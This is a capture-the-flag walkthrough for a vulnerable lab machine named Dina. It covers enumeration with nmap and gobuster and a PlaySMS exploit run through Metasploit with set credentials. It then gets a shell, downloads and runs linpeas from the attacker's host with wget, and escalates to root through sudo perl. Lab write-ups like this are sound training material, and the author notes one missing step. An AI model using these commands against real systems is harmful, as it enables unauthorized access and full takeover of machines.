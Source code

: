 # Metasploit CTF [Dina]
## Enumeration

**Nmap Port Scan:**

- **Command:**
    
    ```powershell
    nmap -A -oN scan <MACHINE-IP>
    ```
    
- **Results:**
    
    ![Untitled](https://curious-cloth-153.notion.site/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F95fa80c9-fc09-41c7-a313-856f4155a90a%2F8d6c3479-7eac-490b-87fb-bf3000899181%2FUntitled.png?table=block&id=476ec69f-2b81-4aca-a692-b9047e63cdb3&spaceId=95fa80c9-fc09-41c7-a313-856f4155a90a&width=1390&userId=&cache=v2)
    

**Service Versions Found:** 

- **80 | Apache | 2.2.22**

**Gobuster Scan:**

- **Command:**
    
    ```powershell
    gobuster dir -u http://<MACHINE-IP-HERE> -w /usr/share/wordlists/dirb/big.txt
    ```
    
- **Results:**
    
    ```powershell
    /.htpasswd
    /.htaccess
    /cgi-bin/
    /index
    /nothing
    /robots.txt
    /robots
    /secure
    /server-status
    /tmp
    /uploads
    ```
    

**Source Code:**

<aside>
💡 inspect element in the “/nothing” web directory to find a list of secret passwords, make a wordlist with those passwords on your kali box.

</aside>

_missing jump between password list and playsms exploit

## Exploitation

**Exploit Found:**

[PlaySMS - index.php Unauthenticated Template Injection Code Execution (Metasploit)](https://www.exploit-db.com/exploits/48335)

**Metasploit Module:**

- **Payload**
    
    ```jsx
    use exploit/multi/http/playsms_uploadcsv_exec
    ```
    
- **Options**
    
    ```jsx
    set rhost 192.168.43.219
    set lhost 192.168.43.171
    set username touhid
    set password diana
    set targeturi /SecreTSMSgatwayLogin
    ```
    

**Navigation:**

- **Get a shell on the machine**
    
    ```jsx
    shell
    ```
    

- **Upgrade to an interactive shell**
    
    ```jsx
    python -c 'import pty; pty.spawn("/bin/sh")'
    ```
    

## Privilege Escalation

**Linpeas is in the “~/Tools” Directory of all the machines**

https://github.com/carlospolop/PEASS-ng/releases

**Linpeas:**

- **Host a Python Server from “~/Tools” on the Kali Box**
    
    ```jsx
    python3 -m http.server 80
    ```
    
- **Download Linpeas on to the vulnerable machine**
    
    ```jsx
    CD into Uploads Directory
    ```
    
    ```jsx
    wget http://<KALI-IP>/linpeas.sh
    ```
    
    ```jsx
    chmod +x linpeas.sh
    ```
    
    ```jsx
    ./linpeas.sh
    ```
    


**💡 Using Linpeas.sh We find that Perl has Sudo privileges without having to authenticate as a Sudo user “/user/bin/perl”**
            
    
    sudo -l
    

**Get a root shell:**

```jsx
sudo perl -e 'exec "/bin/bash";'
```

**PWN3D!**
